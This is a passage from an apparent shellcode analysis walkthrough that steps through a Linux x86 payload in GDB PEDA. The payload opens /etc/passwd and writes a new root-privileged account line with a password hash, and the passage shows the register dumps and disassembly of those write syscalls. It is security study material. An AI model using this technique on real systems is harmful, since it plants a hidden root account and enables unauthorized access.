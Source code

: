 Right after that we see a CALL to a memory address further down or to code+81. The CALL here will push the next set of instructions to the stack. Looking at the instructions past it just looks like a bunch of garbage instructions, however if we examine the addresses in memory we see that this is actually the string to be written to our open file. 

Let's set a breakpoint at `0x402091`.

```
[----------------------------------registers-----------------------------------]
EAX: 0xbffff35c ("/etc//passwd")
EBX: 0x3 
ECX: 0x401 
EDX: 0xb7fa4870 --> 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff358 --> 0x40206b ("absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
EIP: 0x402091 --> 0xfc518b59
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0x402091 <code+81>:	pop    ecx
   0x402092 <code+82>:	mov    edx,DWORD PTR [ecx-0x4]
   0x402095 <code+85>:	push   0x4
   0x402097 <code+87>:	pop    eax
[------------------------------------stack-------------------------------------]
0000| 0xbffff358 --> 0x40206b ("absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
```
As you can see on the stack is indeed the string to be written to /etc/passwd.

What's more interesting here is that looking at GDB PEDA, we can see the next instruction is a POP to ECX as well as a MOV into EDX. This POP will push our string into ECX. However just doing a regular disassemble we cannot see this instruction and it also does not show in `ndisasm`. I believe this is due to the length of our string and it's associated instructions not realigning up nicely for disassembly. 

Let's continue and break just before our next interrupt is called. 

```
[----------------------------------registers-----------------------------------]
EAX: 0x4 
EBX: 0x3 
ECX: 0x40206b ("absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
EDX: 0x26 ('&')
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff35c ("/etc//passwd")
EIP: 0x402098 --> 0x16a80cd
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x402094 <code+84>:	cld    
   0x402095 <code+85>:	push   0x4
   0x402097 <code+87>:	pop    eax
=> 0x402098 <code+88>:	int    0x80
   0x40209a <code+90>:	push   0x1
   0x40209c <code+92>:	pop    eax
   0x40209d <code+93>:	int    0x80
   0x40209f <code+95>:	add    BYTE PTR [eax],al
```

